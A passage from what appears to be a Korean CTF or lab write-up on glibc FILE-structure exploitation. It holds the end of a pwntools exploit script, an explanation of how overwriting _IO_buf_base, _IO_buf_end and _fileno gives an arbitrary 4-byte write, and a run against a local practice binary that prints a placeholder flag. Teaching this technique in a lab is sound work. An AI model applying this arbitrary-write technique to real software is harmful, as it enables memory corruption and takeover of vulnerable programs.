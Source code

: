     p.sendline(p32(0xDEADBEEF))
    p.interactive()
    ```
    

line 12에서는 `_flags` 를 기존의 값으로 입력했다.

그리고 line 19 ~ line 20 에서는 `_IO_buf_base` 를 입력할 변수의 시작 주소인 `overwrite_me` 주소로 조작하고, `_IO_buf_end` 를 `overwrite_me + 4` 의 주소로 조작했다. 이로써 라이브러리 내부에서 `_IO_SYSREAD` 함수가 호출되면 `overwrite_me` 주소로 부터 4 바이트 만큼의 값을 입력할 수 있다.

또한 line 29에서 표준 입력으로 입력하기 위해 `_fileno` 멤버 변수를 `0` 으로 조작했다.

다음은 `file_aw3.py` 에 대한 실행 결과이다.

```zsh
╭─root@8e7cea269c13 ~
╰─➤  python3 file_aw3.py
[+] Starting local process './file_aw3': pid 1221
b'FILE PTR: '
0x249c010
b'Addr: '
[*] Paused (press any to continue)
b'Value: '
[*] Switching to interactive mode
FLAG: FLAG{THIS_IS_FLAG!!!!!!!!!}
```